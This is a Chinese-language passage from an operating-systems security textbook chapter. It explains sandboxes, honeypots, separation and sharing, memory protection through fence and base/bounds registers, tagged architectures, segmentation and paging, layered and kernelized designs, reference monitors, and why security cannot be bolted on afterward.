IBM 研究人员团队 [CHR09] 调查了虚拟化如何影响作为操作系统一部分加载的代码完整性确定问题。研究人员表明，该问题与确定任何代码片段完整性的问题密切相关，例如从网站下载的内容。

## 沙箱

### 沙箱与蜜罐：用于安全的虚拟机

#### 沙箱

一个与虚拟化相似的概念是沙箱的概念。顾名思义，**沙箱**是一个受保护的环境，程序可以在其中运行而不会危及系统上的其他任何内容。

> **沙箱：一种环境，进程在其中只能对外部资源产生有限的、受控的影响**

Java 系统的原始设计基于沙箱概念，由 Li Gong 熟练主导 [GON97]。Java 的设计者意在让系统运行从不可信来源（如互联网）下载的代码，称为小程序。Java 信任本地来源的代码，授予其对敏感系统资源（如文件）的完全访问权限。然而，它不信任下载的远程代码；对于这些代码，Java 提供了一个沙箱，即无法在沙箱外部造成负面影响的有限资源。这一设计背后的思路是，网站可以让代码在远程（本地机器上）执行，以便在 Web 浏览器上显示复杂内容。

Java 编译器和一个称为字节码验证器的工具确保系统仅执行格式良好的 Java 命令。类加载器实用程序是虚拟机监视器的一部分，用于将不受信任的小程序限制在安全的沙箱空间内。最后，Java 虚拟机充当参考监视器，中介所有访问请求。Java 运行时环境是一种虚拟机，它向不受信任的小程序呈现一组无法逃逸的、有界的系统资源子集。

不幸的是，最初的 Java 设计被证明过于严格 [GON09]；人们希望小程序能够访问沙箱外部的某些资源。开放沙箱成为了一个弱点，这一点你很容易理解。Java 系统的后续版本允许签名小程序访问大多数其他系统资源，这成为了一个潜在的——且很快成为现实的——安全漏洞。尽管如此，最初的概念展示了沙箱作为虚拟机的安全优势。

#### 蜜罐

用于安全的虚拟机的最后一个例子是蜜罐。**蜜罐**是一个旨在引诱攻击者的伪装环境。通常部署在网络中，蜜罐向攻击者展示一组有限的（安全的）资源；同时，管理员实时监控攻击者的活动，以了解攻击者的目标、工具、技术和弱点，然后利用这些知识有效地保护系统。

> **蜜罐：一种将攻击者引诱到可控且可监控环境中的系统**

Cliff Stoll [STO88] 和 Bill Cheswick [CHE90] 都采用这种形式的蜜罐与各自的攻击者进行交互。攻击者对敏感数据感兴趣，特别是为了识别漏洞（推测是为了日后利用）。在这些案例中，研究人员与攻击者互动，实时提供真实或虚假的结果。例如，Stoll 决定模拟低速、不可靠连接的效果。这为 Stoll 分析攻击者的命令并使某些文件对攻击者可见争取了时间；如果攻击者执行了 Stoll 未准备好或不愿模拟的操作，Stoll 就会直接中断通信，仿佛那条不可靠的线路再次故障了一样。显然，这种蜜罐需要管理员投入大量的时间和精力。

一些安全研究人员运行蜜罐，以了解对手的能力。病毒检测公司部署具有吸引力、保护薄弱的系统，然后检查这些系统是如何被感染的：通过何种手段，造成何种后果。这项研究有助于指导后续的产品开发。


在所有这些案例中，蜜罐都是一个诱人的目标，最终被证明是一个虚拟机：攻击者所能看到的是实际系统的一个经过挑选的、受控的视图。

这些虚拟机类型的示例展示了它们如何被用来实现一个受控的安全环境。接下来，我们将探讨操作系统如何通过分离主体和客体的类别来控制共享。

## 分离与共享

保护的基础是分离：将一个用户的客体与其他用户的客体分开。John Rushby 和 Brian Randell [RUS83] 指出，操作系统中的分离可以通过以下几种方式实现：

*   **物理分离**，即不同进程使用不同的物理对象，例如为需要不同安全级别的输出配备单独的打印机
*   **时间分离**，即具有不同安全要求的进程在不同时间执行
*   **逻辑分离**，即用户在没有其他进程存在的假象下操作，例如操作系统限制程序的访问，使其无法访问其允许域之外的对象
*   **加密分离**，即进程以一种方式隐藏其数据和计算，使其对外部进程不可理解

> **分离通过空间、时间、访问控制或加密来实现。**

当然，也可以结合上述两种或多种形式的分离。

分离的类别大致按实现复杂度递增的顺序列出，对于前三种，按提供的安全性递减的顺序列出。然而，前两种方法非常严格，可能导致资源利用率低下。因此，我们希望将保护的负担转移给操作系统，以允许具有不同安全需求的进程并发执行。

但分离只是答案的一半。我们通常希望将一个用户与另一个用户的对象分开，但也希望能够为其中一些对象提供共享。例如，两个拥有两组敏感数据的用户可能想要调用相同的搜索算法或函数调用。我们希望用户能够共享算法和函数，而不泄露各自的数据。操作系统可以通过多种方式支持分离和共享，在多个层级上提供保护。

*   **不保护**。当敏感过程在不同时间运行时，无保护的操作系统是合适的。
*   **隔离**。当操作系统提供隔离时，并发运行的不同进程彼此不知晓对方的存在。每个进程拥有自己的地址空间、文件和其他对象。操作系统必须以某种方式限制每个进程，使其他进程的对象完全不可见。
*   **全共享或不共享**。在这种保护形式下，对象的所有者将其声明为公共或私有。公共对象可供所有用户使用，而私有对象仅对其所有者可用。
*   **共享但限制访问**。通过访问限制进行保护时，操作系统会检查每个用户对对象的潜在访问的合法性。即，针对特定用户和特定对象实施访问控制。可接受操作的列表指导操作系统确定特定用户是否应有权访问特定对象。从某种意义上说，操作系统充当用户和对象之间的守卫，确保仅发生授权访问。
*   **限制对象的使用**。这种保护形式不仅限制对对象的访问，还限制访问后对该对象的使用。例如，允许用户查看敏感文档但不允许打印副本。更有力的是，允许用户访问数据库中的数据以得出统计摘要（如特定职级的平均工资），但不允许确定具体数据值（个人工资）。

同样，这些共享模式按实现难度递增的顺序排列，同时也按它们提供的保护精度（我们也称之为粒度）递增的顺序排列。给定的操作系统可能为不同的对象、用户或情况提供不同级别的保护。正如我们在本章前面所述，操作系统实现的控制粒度可能并不适合用户所需的对象类型。

### 硬件内存保护

在本节中，我们将描述保护内存空间的几种方法。我们希望程序能够与其他程序甚至其他用户共享选定的内存部分，特别希望操作系统和用户能共存于内存中，而用户无法干扰操作系统。即使在单用户系统中，正如你所见，保护用户免受潜在可被攻破的系统实用程序和应用程序的影响也是可取的。尽管实现这种共享的机制有些复杂，但大部分实现可以归结为硬件，从而使共享高效且极难被篡改。

**内存保护同时实现了分离和共享。**

#### 界限寄存器

最简单的内存保护形式是在单用户操作系统中引入的，旨在防止有缺陷的用户程序破坏操作系统驻留部分的某一部分。顾名思义，**界限**是一种将用户限制在边界一侧的方法。

在一种实现中，界限是一个预定义的内存地址，使操作系统驻留在一侧，而用户停留在另一侧。图 5-6 显示了这种情况的一个示例。不幸的是，这种实现非常受限，因为无论是否需要，始终都会为操作系统保留预定义数量的空间。如果所需空间少于预定义空间，则多余空间会被浪费。反之，如果操作系统需要更多空间，它无法超越界限边界增长。


**图 5-6** 界限保护

另一种实现使用了一个硬件寄存器，通常称为`界限寄存器`，其中包含操作系统末尾的地址。与固定界限不同，在此方案中，界限的位置可以改变。每当用户程序生成一个用于数据修改的地址时，该地址会自动与界限地址进行比较。如果地址大于界限地址（即在用户区），则执行该指令；如果小于界限地址（即在操作系统区），则引发错误条件。界限寄存器的使用如图 5-7 所示。


**图 5-7** 界限寄存器

界限寄存器仅在一个方向上提供保护。换句话说，操作系统可以受保护免受单个用户的侵害，但界限无法保护一个用户免受另一个用户的侵害。类似地，用户无法将程序的某些区域标识为不可侵犯的（如程序代码本身或只读数据区）。

#### 基址/界限寄存器

带有界限寄存器的操作系统的一大优势是重定位能力；这一特性在多用户环境中尤为重要，尽管在动态加载（即仅在调用时）多个并发进程时也很有用。有两个或更多用户时，没有任何一个能预先知道程序将被加载到何处执行。重定位寄存器通过提供基址或起始地址来解决此问题。程序内部的所有地址都是相对于该基址的偏移量。可变界限寄存器通常称为`基址寄存器`。

界限寄存器指定下界（起始地址）但不指定上界。上界有助于了解分配了多少空间以及检查是否溢出到“禁区”。为克服这一困难，通常会增加第二个寄存器，如图 5-8 所示。第二个寄存器称为`界限寄存器`，是一个上地址限制，就像基址或界限寄存器是下地址限制一样。每个程序地址都被强制高于基址，因为基址寄存器的内容会加到地址上；同时也会检查每个地址以确保其低于界限地址。这样，程序的地址就被整齐地限制在基址和界限寄存器之间的空间内。


**图 5-8** 基址和界限寄存器

此技术保护程序的地址不被其他用户修改。当执行从一个用户的程序切换到另一个用户的程序时，操作系统必须更改基址和界限寄存器的内容，以反映该用户的真实地址空间。此更改是操作系统在将控制权从一个用户转移到另一个用户时必须执行的通用准备工作（称为`上下文切换`）的一部分。

有了基址/界限寄存器对，每个用户都完美地受到保护，免受外部用户的侵害，或者更准确地说，外部用户受到保护，免受任何其他用户程序中错误的影响。用户地址空间内部的错误地址仍可能影响该程序，因为基址/界限检查仅保证每个地址都在用户的地址空间内。例如，当下标越界或未定义变量在用户空间内生成地址引用，但不幸的是落在用户程序的可执行指令内部时，就会发生用户错误。以这种方式，用户可能意外地在指令之上存储数据。此类错误可能导致用户无意中破坏程序，但（幸运的是）仅限于该用户自己的程序。

**基址/界限寄存器包围程序、数据区或域。**

我们可以通过使用另一对基址/界限寄存器来解决此覆盖问题，一对用于程序的指令（代码），另一对用于数据空间。然后，仅指令获取（待执行的指令）使用第一对寄存器进行重定位和检查，仅数据访问（指令的操作数）使用第二对寄存器进行重定位和检查。两对基址/界限寄存器的使用如图 5-9 所示。虽然两对寄存器不能防止所有程序错误，但它们将数据操作指令的影响限制在数据空间内。寄存器对还提供了另一个更重要的优势：将程序分成两个可单独重定位的部分的能力。


**图 5-9** 两对基址和界限寄存器

这两个特性似乎需要使用三对或更多寄存器：一对用于代码，一对用于只读数据，一对用于可修改的数据值。虽然理论上此概念可以扩展，但两对寄存器是实际计算机设计的极限。对于每一对额外的寄存器（超过两对），机器代码或每条指令的状态中必须有某种指示，说明要使用哪一对重定位寄存器来寻址指令的操作数。也就是说，超过两对时，每条指令指定两个或更多数据空间中的一个。但只有两对时，决策可以是自动的：数据操作（加法、位移、比较）使用数据对，执行操作（跳转）使用代码区对。

#### 标记体系结构

使用基址/界限寄存器进行保护或重定位的另一个问题是它们的连续性。每对寄存器将访问限制在连续的地址范围内。编译器或加载器可以轻松重新排列程序，使所有代码段相邻，所有数据段相邻。

然而，在某些情况下，您可能希望保护部分数据值而非全部。例如，人事记录可能要求保护薪资字段，但不保护办公地点和电话号码。此外，程序员可能希望通过允许在程序初始化时写入某些数据值，但禁止程序稍后修改它们，来确保这些数据值的完整性。此方案可防止程序员自身代码中的错误。程序员还可能希望从公共库调用共享子程序。我们可以通过良好的设计来解决其中一些问题，无论是在操作系统中还是在正在运行的其他程序中。回想一下，在第 3 章中，我们学习了程序设计中信息隐藏和模块化等良好设计特征。这些特征规定，一个程序模块只能与另一个模块共享双方完成工作所需的最少数据量。

此外，特定于操作系统的设计特性也有所帮助。基址/界限寄存器造成了一种共享的全有或全无局面：要么程序使其所有数据可供访问和修改，要么禁止对所有数据的访问。即使有第三组用于共享数据的寄存器，所有共享数据也需要放在一起。一个过程无法有效地与一个模块共享数据项 A、B 和 C，与第二个模块共享 A、C 和 D，与第三个模块共享 A、B 和 D。实现我们想要的这种共享的唯一方法是将每组适当的数据值移动到某个连续空间。然而，如果数据项是大型记录、数组或结构，这种解决方案将不可接受。

一种替代方案是`标记体系结构`，其中机器内存的每个字都有一个或多个额外的位来标识对该字的访问权限。这些访问位只能由特权（操作系统）指令设置。每当指令访问该位置时，都会测试这些位。

例如，如图 5-10 所示，一个内存位置可能被保护为仅执行（例如，指令的目标代码），而另一个被保护为仅取数（例如，读）数据访问，还有一个可供修改（例如，写）。这样，两个相邻位置可以拥有不同的访问权限。此外，通过几个额外的标记位，可以分离不同类别的数据（数值、字符、地址或指针，以及未定义），并保护数据字段仅供特权（操作系统）访问。


**图 5-10** 标记体系结构

这种保护技术已在少数系统上使用，尽管标记位的数量相当少。Burroughs B6500-7500 系统使用三个标记位来分离数据字（三种类型）、描述符（指针）和控制字（栈指针和寻址控制字）。IBM System/38 使用标记来同时控制完整性和访问。

由西门子和英特尔共同设计的一种称为 BiiN 的机器体系结构，使用一个适用于一组连续位置的标记，例如 128 或 256 字节。有了针对地址块的一个标记，实现标记的额外成本不像每个位置一个标记那样高。英特尔 I960 扩展体系结构处理器使用了一种标记体系结构，在每个内存字上有一个位，将该字标记为“能力”，而不是用于数据或指令的普通位置。一种能力控制对可变大小内存块或段的访问。这种大量可能的标记值支持了大小从 64 字节到 40 亿字节不等的内存段，具有潜在的 2²⁵⁶ 个不同的保护域。

代码兼容性给标记体系结构的接受带来了问题。正如我们稍后将看到的，标记体系结构可能不如更现代的方法有用。一些主要计算机厂商仍在使用多年前为那个时代的体系结构设计和实现的操作系统：Unix 可追溯到 20 世纪 70 年代；Mach 是苹果 iOS 的核心，是 20 世纪 80 年代 Unix 的衍生版；现代 Windows 的部分代码源自 20 世纪 80 年代的 DOS、90 年代初的 Windows 和 90 年代末的 NT。事实上，由于组件广泛可用以及维护操作系统和机器家族间兼容性的愿望，大多数制造商都锁定在更传统的内存体系结构中。标记体系结构将要求对几乎所有操作系统代码进行根本性更改，这一要求可能成本高得令人望而却步。但随着内存价格的持续下降，标记体系结构的实现变得更加可行。

#### 虚拟内存

我们将介绍两种更多的内存保护方法，每种都可以在传统机器结构之上实现，表明有更好的接受机会。虽然这些方法按计算机标准来看是古老的——它们设计于 1965 年至 1975 年之间——但此后已在许多机器上实现。此外，它们在寻址方面提供了重要优势，内存保护则是一个令人愉快的额外收获。

#### 分段

这两种方法中的第一种，**分段**，涉及将程序划分为独立片段的简单概念。每个片段具有逻辑统一性，其所有代码或数据值之间表现出一种关系。例如，一个段可以是单个过程的代码、一个数组的数据，或特定模块使用的所有局部数据值的集合。分段的开发是作为一种可行的手段，以产生相当于无限数量的基址/界限寄存器的效果。换句话说，分段允许将程序划分为许多具有不同访问权限的片段。

每个段都有一个唯一的名称。段内的代码或数据项作为 `名称, 偏移量` 对进行寻址，其中名称是包含数据项的段的名称，偏移量是其在段内的位置（即距离段起始处的距离）。

逻辑上，程序员将程序视为段的长集合。段可以单独重定位，允许将任何段放置在任何可用的内存位置。逻辑段与其真实内存位置之间的关系如图 5-11 所示。


**图 5-11** 分段

操作系统必须维护一个段名称及其在内存中真实地址的表。当程序生成 `名称, 偏移量` 形式的地址时，操作系统在段目录中查找名称并确定其真实的起始内存地址。操作系统将偏移量加到该地址上，从而得到代码或数据项的真实内存地址。这种转换如图 5-12 所示。为提高效率，通常每个正在执行的进程有一个操作系统段地址表。需要共享访问单个段的两个进程，在其段表中将具有相同的段名称和地址。


**图 5-12** 段地址转换

因此，用户的程序不知道它使用的真实内存地址。它没有方法——也没有必要——确定与特定 `名称, 偏移量` 关联的实际地址。`名称, 偏移量` 对足以访问程序应有权访问的任何数据或指令。

这种地址隐藏对操作系统有三个优势。

1.  操作系统可以将任何段放置在任何位置，或将任何段移动到任何位置，即使在程序开始执行之后。因为操作系统通过段地址表转换所有地址引用，所以当段移动时，操作系统只需更新该表中的地址。
2.  如果某段当前未被使用，可将其从主存移除（并存储在辅助设备上）。（前两个优势解释了为何该技术称为虚拟内存，其基础与本章前文所述的虚拟化相同。用户看到的内存外观不一定是实际存在的。）
3.  每次地址引用都会经过操作系统，因此有机会对每一次引用进行保护检查。

由于这一特性，进程只有当该段出现在其段转换表中时才能访问该段。操作系统控制哪些程序在其段地址表中拥有特定段的条目。这种控制为段提供了强有力的保护，防止未授权进程访问。例如，程序 A 可能拥有用户 X 的 BLUE 和 GREEN 段的访问权，但无权访问该用户的其他段或任何其他用户的段。我们可以直接允许用户为程序的不同段设置不同的保护类别。例如，一个段可能是只读数据，第二个段可能是仅执行代码，第三个段可能是可写数据。在这种情况下，分段技术可近似实现前文标记架构一节所述的对程序不同部分进行单独保护的目标。

***

**分段允许硬件支持以不同访问模式对不同内存区域进行受控访问。**

***

分段提供以下安全优势：

*   每次地址引用都会被检查——既不超高也不超低——以实现保护。
*   许多不同类别的数据项可被分配不同级别的保护。
*   两个或多个用户可共享对某段的访问，且可能拥有不同的访问权限。
*   用户无法生成对未授权段的地址或访问。

分段固有的一个保护难点在于段大小。每个段都有特定大小。然而，程序可能生成对有效段名的引用，但偏移量超过了段的末尾。例如，引用 `A,9999` 看起来完全有效，但实际上段 A 可能只有 200 字节长。如果不加防范，这个安全漏洞可能允许程序通过在引用中使用大偏移值，访问段末尾之后的任意内存地址。

此问题无法在编译期间甚至程序加载时阻止，因为有效利用段要求允许它们在执行期间增长。例如，某段可能包含栈等动态数据结构。因此，分段的安全实现要求检查生成的地址，以验证其未超出所引用段的当前末尾。虽然这种检查会带来额外开销（时间和资源），但分段系统必须执行此检查；分段过程必须在转换表中维护当前段长度，并比较每个生成的地址。

因此，我们需要在保护与效率之间取得平衡，寻找使分段尽可能高效的方法。然而，高效实现分段面临两个问题：段名在指令中编码不便，且操作系统在表中查找名称可能较慢。为克服这些困难，编译器在翻译程序时常将段名转换为数字；编译器还会附加一个链接表，将数字映射到真实段名。遗憾的是，当两个过程需要共享同一段时，此方案会带来实现困难，因为该段访问的数据所分配的段号必须相同。

#### 分页

分段的一种替代方案是 **分页**。程序被分成称为页的等大小片段，内存被分成称为页框的等大小单元。（出于实现原因，页大小通常选为 512 到 4096 字节之间的 2 的幂。）与分段一样，分页方案中的每个地址也是一个两部分对象，由 `page, offset` 组成。

每个地址再次通过类似分段的过程进行转换：操作系统维护一张用户页号及其在内存中真实地址的表。每个 `page, offset` 引用中的页部分通过查表转换为页框地址；偏移部分加到页框地址上，生成 `page, offset` 所指对象的真实内存地址。此过程如图 5-13 所示。


**图 5-13 页地址转换**

与分段不同，分页方法中所有页大小固定且相同，因此碎片不是问题。每个页可放入内存中任何可用页框，从而消除了超出页末尾寻址的问题。`page, offset` 地址的二进制形式设计为让偏移值填满地址中的一段位范围。因此，超出特定页末尾的偏移会产生进位进入地址的页部分，从而改变地址。

***

**分页在提供分段安全优势的同时，实现了更高效的内存管理。**

***

为理解此原理，假设页大小为 1024 字节（1024 = 2¹⁰），地址的偏移部分分配 10 位。程序无法在 10 位中生成大于 1023 的偏移值。从 `x,1023` 移动到下一位置会产生进位进入页部分，从而将转换移至下一页。转换过程中，分页过程会检查 `page, offset` 引用是否超出进程定义的最大页数。


使用分段方法时，程序员必须了解段的存在。然而，使用基于分页的操作系统时，程序员对页边界是无感知的。此外，分页中页没有逻辑统一性；页只是程序的下 `2^n` 字节。因此，程序的变更（如增加一条指令）会将所有后续指令推向更低地址，并将每页末尾的几字节移至下一页开头。程序员无需关心这种移位，因为分页和地址转换的整个机制对程序员是隐藏的。

然而，从保护角度看，这种移位是个严重问题。因为段是逻辑单元，我们可将不同段与各自的保护权限（如只读、仅执行）关联。这种移位可在转换期间高效处理。但分页中，页上的项目无必要的统一性，因此无法确立页上所有值应受同级保护（如只读或仅执行）。

### 分页与分段结合

我们已经了解到分页提供了实现效率，而分段提供了逻辑保护特性。由于每种方法既有缺点也有优点，因此这两种方法已被结合使用。

IBM 390 系列大型机系统使用了一种分页分段形式。同样，Multics 操作系统（在 GE-645 机器上实现）在分段之上应用了分页。在这两种情况下，程序员都可以将程序划分为逻辑段。然后每个段被分解为固定大小的页面。在 Multics 中，地址的段名部分是一个 18 位数字，带有 16 位偏移量。地址随后被分解为 1024 字节的页面。翻译过程如图 5-14 所示。这种方法保留了段的逻辑统一性，并允许对段进行差异化保护，但它为每个地址增加了一个额外的翻译层。额外的硬件提高了实现效率。


**图 5-14** 带分页分段的地址翻译

这些硬件机制提供了良好的内存保护，尽管它们最初的目的完全是别的：高效的内存分配和数据重定位，安全只是一个幸运的副作用。在操作系统中，安全从一开始就是核心需求和设计要素，我们将在下一节探讨这一点。

### 5.2 操作系统设计中的安全性

正如我们刚才讨论的，操作系统是复杂的软件。组件来自许多来源，有些是支持旧功能的遗留代码；其他部分实际上可以追溯到几十年前，具有早已被遗忘的设计特征。还有一些部分是昨天刚写的。新旧代码必须成功交互和接口，新设计者必须确保他们的代码能与所有现有的先前版本正确工作，更不用说存在的众多应用程序了。

攻击者利用这种复杂性，通过实验来定位接口不匹配：不再被调用的函数、中断处理表中的空位、被遗忘的设备驱动程序。操作系统在引导过程中加载组件时，为代码稍后附加提供了许多点；如果其中一个组件不存在，恶意代码可以取而代之地附加。

显然，并非所有复杂软件都容易受到攻击。我们要表达的观点是：软件越复杂，引入不需要的软件的可能性就越大。没有窗户的房子不会留下任何人通过窗户闯入的机会，但房子设计中每增加一个窗户，都会增加这种危害的可能性，并要求房主采取更多安全措施。现在将这个隐喻扩展到通常包含数百万行代码的现代操作系统：每一行代码对于其用途都是完美的，并且与其他每一行代码完美契合的可能性有多大？

我们在 **第 3 章** 中介绍的安全程序设计原则同样适用于操作系统。简单、模块化、松耦合的设计给攻击者留下的机会更少。

#### 设计的简洁性

操作系统本身（无论其安全约束如何）都很难设计。它们处理许多职责，受中断和上下文切换影响，并且必须最小化开销，以免拖慢用户计算和交互。向操作系统增加安全执行的责任会增加设计难度。

尽管如此，对有效安全性的需求无处不在，良好的软件工程原则告诉我们，在开始时设计安全比在最后强行塞入安全要重要得多。（有关良好设计原则的更多信息，请参见 **侧边栏 5-2**。）因此，本节重点关注为高度安全设计操作系统。我们特别关注操作系统内核的设计；内核的设计方式暗示了安全是否能得到有效提供。我们研究内核的两种不同解释，然后考虑分层或环结构设计。

#### 分层设计

如前所述，一个非平凡的操作系统至少包含四个层级：硬件、内核、操作系统和用户。这些层中的每一层都可以包含子层。例如，在 `[SCH83]` 中，内核有五个不同的层。用户级也可能拥有准系统程序，如数据库管理器或图形用户界面 Shell，它们本身构成了单独的安全层。

***

**侧边栏 5-2 良好设计原则的重要性**

每一个设计，无论是硬件还是软件，都必须以设计理念和指导原则开始。这些原则渗透于设计中，从一开始就内置其中，并根据设计理念在设计演变过程中得以保留。

设计理念表达了设计者的总体意图，不仅在于系统将如何外观和运作，还在于如何测试和维护。大多数系统不是为短期使用而构建的。它们随着世界随时间的变化而增长和演变。功能被增强、添加或删除。支持或通信的硬件和软件发生变化。随着问题被发现并根除其原因，系统得到修复。设计理念解释了系统如何“保持统一”，在所有这些变化中维护其完整性。良好的设计理念将使系统易于测试且易于更改。

理念暗示了一组良好的设计原则。模块化、信息隐藏以及 **第 3 章** 中讨论的其他概念形成了指导方针，使设计者能够实现其软件质量目标。由于安全是这些目标之一，因此安全策略与设计理念保持一致，以及设计原则能够使适当的保护内置到系统中，这至关重要。

当设计质量没有被预先考虑并嵌入开发过程时，结果可能是一种软件无政府状态。系统最初可能运行正常，但随着更改的进行，软件会迅速退化，并以一种使未来更改更加困难和耗时的方式退化。软件变得脆弱，故障更频繁，有时甚至使包括安全在内的功能无法添加或更改。同样重要的是，脆弱且设计不良的软件很容易隐藏漏洞，因为软件太难理解，执行状态太难跟踪、复现和测试。因此，良好的设计实际上是一个安全问题，安全软件必须设计良好。

***

##### 分层信任

正如本章前面讨论的，安全操作系统的分层结构可以被视为一系列同心圆，最敏感的操作在最内层。一个等价的视角是一座建筑，最敏感的任务分配给底层。然后，进程的可信度和访问权限可以通过进程与中心的接近程度来判断：受信任程度越高的进程越接近中心或底部。

隐含在将分层作为对策使用的是分离。本章前面我们描述了实现分离的方法：物理、时间、逻辑和加密。在这四种方法中，逻辑（基于软件）分离最适用于分层设计，这意味着操作系统的一个基本（内部或底层）部分必须控制所有外部或上层的访问，以强制执行分离。

Peter Neumann `[NEU86]` 描述了可证明安全操作系统（PSOS）所采用的分层结构。某些较低层将其部分或全部功能呈现给较高层，但每一层都能恰当地封装其下方的事物。

分层方法是实现封装的另一种途径，详见 **第 3 章**。分层被公认为一种优秀的操作系统设计。每一层将更核心的层作为服务来使用，并向更外层提供一定级别的功能。这样，我们可以“剥离”每一层，仍然拥有一个逻辑上完整但功能较少的系统。分层很好地诠释了如何权衡和平衡设计特性。

分层的另一个理由是损害控制。要理解原因，请看 Neumann 的两个风险示例。在常规的非分层设计系统中（如表 5-1 所示），任何问题——硬件故障、软件缺陷或意外状况，甚至发生在所谓无关的非安全部分——都可能导致灾难，因为问题的影响是无界的，且系统的设计意味着我们无法确信任何特定功能没有（间接的）安全影响。


**表 5-1** 常规（非分层）设计

相比之下，如表 5-2 所示，分层结构有两大优势：

*   分层结构允许识别最关键的部分，随后可对其进行深度正确性分析，因此问题的数量应更少。
*   隔离将问题的影响限制在问题发生点及其之上的分层级别，因此许多问题的有害影响应被限制在一定范围内。


**表 5-2** 分层设计系统

这些设计特性——内核、分离、隔离和分层结构——一直是许多可信系统原型的基础。它们经受住了时间的考验，成为最佳设计和实现实践。

***

**分层确保安全问题仅影响敏感度较低的层。**

***

#### 内核化设计

**内核** 是执行最底层功能的操作系统部分。在标准操作系统设计中，内核实现同步、进程间通信、消息传递和中断处理等操作。内核也称为 **核** 或 **核心**。Butler Lampson 和 Howard Sturgis `[LAM76]` 以及 Gerald Popek 和 Charles Kline `[POP78]` 描述了围绕内核设计操作系统的概念。

**安全内核** 负责强制执行整个操作系统的安全机制。安全内核在硬件、操作系统和计算系统的其他部分之间提供安全接口。通常，操作系统的设计使得安全内核包含在操作系统内核之内。Stan Ames `[AME83]` 详细讨论了安全内核。

***

**安全内核：所有安全强制执行的核心所在**

***

将安全功能隔离在安全内核中有几个充分的设计理由。

*   **覆盖性**。对受保护对象的每一次访问都必须通过安全内核。采用这种设计的系统，操作系统可利用安全内核确保每一次访问都经过检查。
*   **分离性**。将安全机制既与操作系统其余部分隔离，又与用户空间隔离，使得保护这些机制免受操作系统或用户渗透变得更容易。
*   **统一性**。所有安全功能由单一代码集执行，因此更容易追踪这些功能出现的任何问题的原因。
*   **可修改性**。对安全机制的修改更易实施和测试。且由于统一性，修改的影响被局部化，使接口更易理解和控制。
*   **紧凑性**。因为仅执行安全功能，安全内核可能相对较小。
*   **可验证性**。由于规模相对较小，安全内核可接受严格分析。例如，可使用形式化方法确保设计已涵盖所有安全情况（如状态和状态变更）。

请注意，这些优势与我们之前描述的操作系统设计目标相似。这些特性在许多方面也依赖于模块化，详见 **第 3 章**。

另一方面，实施安全内核可能会降低系统性能，因为内核在用户程序和操作系统资源之间增加了另一层接口。此外，内核的存在并不保证它包含*所有*安全功能，也不保证它已被正确实现。在某些情况下，安全内核可能相当庞大。

我们如何平衡使用安全内核的这些优缺点？安全内核的设计与实用性在一定程度上取决于操作系统整体设计方法。有许多设计选择，每一种都属于两类之一：要么安全内核作为操作系统的附加组件设计，要么作为整个操作系统的基础。让我们更仔细地审视每种设计选择。

###### 参考监视器

安全内核最重要的部分是 **参考监视器**，即控制对象访问的部分 `[AND72, LAM71]`。我们在 **第 2 章** 中介绍了参考监视器。参考监视器将主体与客体分离，强制要求主体只能访问安全策略明确允许的那些客体。参考监视器不一定是单个代码片段；而是设备、文件、内存、进程间通信和其他类型客体的访问控制的集合。如图 5-15 所示，参考监视器就像操作系统或可信软件周围的一堵砖墙，中介主体（S）对客体（O）的访问。


**图 5-15** 参考监视器

正如 **第 2 章** 所述，参考监视器必须具备：

*   **防篡改性**，即无法被削弱或禁用
*   **不可绕过性**，即每当需要访问任何客体时总会被调用
*   **可分析性**，即规模足够小以接受分析和测试，且能确保其完整性

参考监视器并非可信操作系统的唯一安全机制。安全套件的其他部分包括审计、标识和认证处理，以及设置执行参数，如谁是允许的主体、他们被允许访问什么客体。这些其他安全部分与参考监视器交互，从参考监视器接收数据或为其提供运行所需的数据。

参考监视器概念已被许多可信操作系统和较小的可信软件组件采用。该概念的有效性在研究和实践中都得到了充分支持。Paul Karger `[KAR90, KAR91]` 和 Morrie Gasser `[GAS88]` 描述了严格遵循使用参考监视器控制访问的内核化 DEC VAX 操作系统的设计与构建。

#### 正确性与完整性

安全考量渗透于操作系统的设计与结构之中，这要求正确性与完整性。**正确性**意味着，因为操作系统控制着主体与客体之间的交互，安全必须在其设计的每一个方面都被考量。也就是说，操作系统设计必须包含对哪些客体将以何种方式受保护、哪些主体将拥有何种级别的访问权限等方面的定义。必须存在从安全需求到设计的清晰映射，以便所有开发人员都能看到二者如何关联。

此外，设计人员在构建完操作系统的某个部分后，必须检查该设计是否真正实现了它所要强制执行的安全程度。这种检查可以通过多种方式完成，包括正式评审或模拟。同样需要一种映射，这次是从需求到设计再到测试，以便开发人员能够确认操作系统安全的每个方面都已通过测试并被证明能正确工作。因为安全出现在操作系统的每个部分，安全设计与实现不能在系统其余部分运行并测试之前保持模糊或含糊。

**完整性**要求安全功能包含在所有必要的地方。尽管这一要求显而易见，但并非所有开发人员在设计和编写代码时都会考虑安全，因此安全完整性具有挑战性。为安全设计不足的操作系统事后添加安全特性极其困难。将操作系统的安全留到最后一刻，就像试图在一个地基已定、地板已铺、墙壁已竖起并刷好漆的房子里安装管道或电线；不仅必须破坏大部分已建成的东西，而且可能会发现整体结构已无法容纳所有所需内容（因此不得不省略或妥协某些内容）。而且最后时刻的添加往往是在时间压力下匆忙完成的，这不利于完整性。

***

**安全强制执行必须正确且完整。**

***

因此，安全必须成为可信操作系统初始设计的重要组成部分。事实上，安全考量可能会塑造许多其他设计决策，特别是对于具有复杂和严格安全需求的系统。出于同样的原因，安全和其他设计原则必须贯穿实现、测试和维护始终。换个说法，正如 **Sidebar 5-3** 所述，安全绝*不能*在最后才添加。

***

**安全作为附加组件很少成功；它必须成为初始理念、需求、设计和实现的一部分。**

***

***

**Sidebar 5-3 作为附加组件的安全**

20 世纪 80 年代，美国国务院利用王安电脑网络处理其外交办公职能。每个美国大使馆至少有一套王安系统，配备专用文字处理软件，用于创建、修改、存储、检索文档，并将其从一个地点发送到另一个地点。国务院自有的外交信息系统（FAIS）对王安的办公自动化软件进行了补充。

20 世纪 80 年代中期，国务院委托一家私人承包商为 FAIS 增加安全功能。外交及其他信函将通过包裹敏感材料的安全“信封”进行保护。增加的保护旨在防止未经授权的一方“打开”信封并阅读内容。

为了设计和实现安全功能，承包商必须补充王安操作系统和实用程序提供的功能。安全设计依赖于当前的王安 VS 操作系统设计，包括操作系统文件中未使用字的利用。按设计和实现，新的安全功能工作正常并满足了国务院的要求。但该系统注定会失败，因为 VS 的演进目标与国务院的目标不同。也就是说，王安无法保证未来对 VS 的修改会保留承包商安全软件所需的功能和结构。换句话说，无论 FAIS 是否在使用那些字，王安都可能需要占用操作系统文件中未使用的字来实现新的系统功能。最终，意图与实践发生了致命冲突，附加的安全功能失效了。

***

